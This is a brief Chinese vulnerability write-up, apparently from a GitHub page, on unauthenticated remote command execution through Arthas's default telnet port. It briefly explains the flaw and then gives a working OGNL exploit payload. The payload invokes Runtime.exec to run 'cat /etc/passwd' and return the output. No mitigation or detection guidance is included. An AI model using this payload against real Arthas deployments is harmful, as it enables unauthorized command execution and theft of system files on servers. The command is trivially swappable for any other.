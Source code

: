 ### 一 漏洞描述
arthas是阿里巴巴开源的Java诊断工具，基本使用场景是定位复现一些生产环境比较难以定位问题。可以在线排查问题，以及动态追踪Java代码，实时监控JVM状态等等。

Arthas默认开启telnet，且无访问控制措施。攻击者可以通过连接telnet端口并构造恶意ognl表达式，获取服务器命令执行权限。

### 二 漏洞利用
```
ognl "#r=@java.lang.Runtime@getRuntime(),#cmd='cat /etc/passwd',#p=#r.exec(#cmd),#ips=#p.getInputStream(),#isr=new java.io.InputStreamReader(#ips),#br=new java.io.BufferedReader(#isr),#result=#br.lines().parallel().collect(@java.util.stream.Collectors@joining(@java.lang.System@lineSeparator()))"
```
